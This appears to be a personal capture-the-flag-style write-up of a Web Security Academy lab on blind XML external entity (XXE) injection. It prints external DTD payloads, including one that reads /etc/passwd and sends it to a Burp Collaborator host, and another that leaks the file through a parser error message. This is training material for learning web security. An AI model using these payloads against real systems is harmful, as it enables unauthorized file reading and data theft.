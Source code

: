 # Lab: Exploiting blind XXE to retrieve data via error messages

>This lab has a "Check stock" feature that parses XML input but does not display the result.

>To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

>The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

### Observations
We can see the XML in the body of `POST /product/stock`
My collaborator url: `i2lp83iyim1k1d5cnbow29ddh4nubj.burpcollaborator.net`
My exploit url: `https://exploit-ac531fac1f6a8ae9c0951e6d01a10066.web-security-academy.net/exploit`

### Next steps
I slightly modified my DTD from the previous lab, here is the content that I stored on my exploit server as `/exploit` (look at the content between the pairs of `"""`):

"""

<!ENTITY % file SYSTEM "file:///etc/passwd">

<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://bapx36nws7mgxxnh9d3bcbqu2l8cw1.burpcollaborator.net/x=%file;'>">

%eval;

%exfil;`

"""


I then called my external DTD from my request to `POST /product/stock` with the following xml:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac531fac1f6a8ae9c0951e6d01a10066.web-security-academy.net/exploit"> %xxe;]>`

I got this error in the response: `"XML parser exited with non-zero code 1: Illegal character in URL"`


So I url encoded the url and received the following response:

`"XML parser exited with non-zero code 1: /home/peter/https:/exploit-ac531fac1f6a8ae9c0951e6d01a10066.web-security-academy.net/exploit (No such file or directory)"`

### Solution
I went through a lot of rabbit holes to find the action solution. This is my external dtd:


"""

<!ENTITY % file SYSTEM "file:///etc/passwd">

<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///%file;'>">

%eval;

%exfil;

"""

I then called this external DTD from the XML in the POST request:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac531fac1f6a8ae9c0951e6d01a10066.web-security-academy.net/exploit"> %xxe;]>`

The contents of `/etc/passwd` were dumped, lab solved!
